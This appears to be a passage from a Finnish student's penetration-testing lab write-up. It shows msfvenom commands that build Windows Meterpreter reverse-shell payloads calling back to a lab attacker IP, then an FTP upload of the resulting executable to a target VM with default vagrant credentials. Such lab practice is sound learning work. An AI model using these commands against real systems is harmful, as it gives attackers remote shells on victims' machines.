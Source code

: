 
Pistin seuraavan komennon pyörimään kokeillakseni, voinko korvata sanan Linux sanalla Windows:

```
msfvenom -p windows/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=5555 -f elf -o reverse-sh.elf
```

![alt text](image-34.png)

Joo... Ei toiminut. Kokeilin eri payloadia, joka löytyi Metasploitablen artikkelista. (Klikkaa [tästä](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html) artikkeliin!)

Vaihdoin komentoa ja kokeilin uudestaan:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.101 lport=4444 X > pahapiru.exe
```

![alt text](image-37.png)

Lähetin payloadin seuraavasti:

```
ftp 192.168.56.102
username: vagrant
password: vagrant
put pahapiru.exe
ls
```
![alt text](image-38.png)
